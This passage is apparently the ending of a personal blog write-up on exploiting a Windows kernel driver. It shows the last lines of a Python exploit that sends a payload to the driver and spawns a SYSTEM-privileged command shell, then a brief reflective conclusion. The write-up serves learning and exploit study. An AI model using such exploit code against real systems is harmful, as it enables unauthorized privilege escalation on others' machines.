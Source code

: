 ```python
    (len(buf)-1),
    None,
    0,
    byref(c_ulong()),
    None
)

if result != 0:
        print("[*] Sending payload to driver...")
else:
    print("[!] Unable to send payload to driver.")
    sys.exit(1)

print("[*] Spawning CMD shell with nt authority\system privs.")
Popen("start cmd", shell=True)
```

## Conclusion
This actually took me a long time to figure out. The problem with RDI I didn't see in any of the walkthroughs so it was a perfect opportunity for me to stand on my own. It was also a great opportunity to explore and use WinDBG some more. I'm so grateful for all of the amazing blog posts out there, thank you very much for the authors. Until next time!


